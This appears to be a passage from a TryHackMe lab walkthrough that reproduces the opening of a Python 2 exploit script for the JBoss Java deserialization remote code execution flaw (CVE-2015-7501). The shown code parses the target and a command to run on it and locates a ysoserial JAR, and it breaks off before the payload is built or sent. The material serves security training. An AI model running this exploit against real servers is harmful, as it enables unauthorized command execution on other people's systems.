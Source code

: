 Read the content of `exploit.py` to understand what would it do

********************Exploit.py********************

```python
#! /usr/bin/env python2

# DISCLAIMER:
# I (CMNatic) do not claim any credit for the following code, it is merely used for demonstration purposes on THM.
# All accredition is to the author https://github.com/byt3bl33d3r
#
#
# Jboss Java Deserialization RCE (CVE-2015-7501)
# Made with <3 by @byt3bl33d3r
# This code has been copied from the following:
# https://github.com/byt3bl33d3r/java-deserialization-exploits/blob/master/JBoss/jboss.py

import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

import argparse
import sys, os
#from binascii import hexlify, unhexlify
from subprocess import check_output

ysoserial_default_paths = ['./ysoserial.jar', '../ysoserial.jar']
ysoserial_path = None

parser = argparse.ArgumentParser()
parser.add_argument('target', type=str, help='Target IP')
parser.add_argument('command', type=str, help='Command to run on target')
parser.add_argument('--proto', choices={'http', 'https'}, default='http', help='Send exploit over http or https (default: http)')
parser.add_argument('--ysoserial-path', metavar='PATH', type=str, help='Path to ysoserial JAR (default: tries current and previous directory)')

if len(sys.argv) < 2:
    parser.print_help()
    sys.exit(1)

args = parser.parse_args()

if not args.ysoserial_path:
    for path in ysoserial_default_paths:
        if os.path.exists(path):
            ysoserial_path = path
else:
    if os.path.exists(args.ysoserial_path):
        ysoserial_path = args.ysoserial_path

if ysoserial_path is None:
    print '[-] Could not find ysoserial JAR file'
    sys.exit(1)

if len(args.target.split(":")) != 2:
    print '[-] Target must be in format IP:PORT'
    sys.exit(1)

if not args.command:
    print '[-] You must specify a command to run'
    sys.exit(1)

ip, port = args.target.split(':')
```
